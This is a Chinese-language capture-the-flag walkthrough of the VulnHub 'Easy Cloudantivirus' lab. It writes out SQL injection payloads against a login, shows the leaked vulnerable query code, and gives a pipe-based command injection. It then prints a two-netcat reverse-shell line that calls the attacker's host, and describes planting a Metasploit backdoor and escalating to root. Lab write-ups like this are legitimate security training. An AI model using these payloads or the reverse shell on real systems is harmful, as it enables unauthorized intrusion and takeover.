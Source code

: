 ```yaml
---
title: VulnHub靶场 Easy Cloudantivirus
description: VulnHub靶场 Easy Cloudantivirus WP
pubDate: 10 19 2024
image: https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Easy%20Cloudantivirus/002%20Easy%20Cloudantivirus-8.webp
categories:
  - 网络安全
tags:
  - 靶场
  - VulnHub靶场
  - 渗透测试
---
```


进行二层发现

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Easy%20Cloudantivirus/002%20Easy%20Cloudantivirus-1.webp)

目标锁定 `192.168.135.205`，对其进行端口扫描，得到如下结果

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Easy%20Cloudantivirus/002%20Easy%20Cloudantivirus-2.webp)

在目标 IP 下的 8080 端口，有一个 Python 的 WEB 服务，访问页面得到如下结果

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Easy%20Cloudantivirus/002%20Easy%20Cloudantivirus-3.webp)

要求填写邀请码进行使用。进行 FUZZ 测试，在测试 `"` 的时候，出现的 sqlite3 报错

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Easy%20Cloudantivirus/002%20Easy%20Cloudantivirus-4.webp)

直接把代码爆出来了。

```python
def login():
    password = request.form['password']
    if len(c.execute('select * from code where password="' + password + '"').fetchall()) > 0:
        session['logged_in'] = True
		return 'Redirecting to /scan. <meta http-equiv="refresh" content="0; url=/scan" />'
    else:
        return "WRONG INFORMATION"
```

看一下 sql 语句

```sql
select * from code where password="' + password + '"
```

简单构建一下

```sql
select * from code where password="' + " or 1=1# + '"
```

即输入 `" or 1=1#`，进行尝试，结果如下

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Easy%20Cloudantivirus/002%20Easy%20Cloudantivirus-5.webp)

额……换个 `--` 注释试试

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Easy%20Cloudantivirus/002%20Easy%20Cloudantivirus-6.webp)

成功，返回了一个 `ls -l` 的命令结果。说明后端执行了命令，试试管道符

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Easy%20Cloudantivirus/002%20Easy%20Cloudantivirus-7.webp)

成功执行命令，我们借此可以反弹 shell，发现目标靶机自带 nc，尝试连接

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Easy%20Cloudantivirus/002%20Easy%20Cloudantivirus-8.webp)

失败了，可能是版本不对……，想到一个法子

```shell
nc 192.168.135.192 9999 | /bin/bash | nc 192.168.135.192 8888
```

第一个的结果传递给 `/bin/bash`，然后再传递给第二个连接，这样不就另类的实现了 shell 嘛

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Easy%20Cloudantivirus/002%20Easy%20Cloudantivirus-9.webp)

成功。不过这样有点麻烦，直接传一个 MSF 马进去

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Easy%20Cloudantivirus/002%20Easy%20Cloudantivirus-10.webp)

成功喽。有一个数据库文件，下载下来，啥也没有。

再进行信息收集的时候，发现在 `/home/scanner` 下，有一个可执行的，有 sudo 权限的，属主为 root 用户的 c 源文件

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Easy%20Cloudantivirus/002%20Easy%20Cloudantivirus-11.webp)

查看一下源码内容

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Easy%20Cloudantivirus/002%20Easy%20Cloudantivirus-12.webp)

这是一个更新脚本，要求传递两个参数，拿 nc 简单试试

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Easy%20Cloudantivirus/002%20Easy%20Cloudantivirus-14.webp)

查看反弹结果

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Easy%20Cloudantivirus/002%20Easy%20Cloudantivirus-13.webp)

成功得到 root 权限，然后再传 MSF 马，得到 root 权限的 MSF 后门

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Easy%20Cloudantivirus/002%20Easy%20Cloudantivirus-15.webp)

成功拿到 root 权限
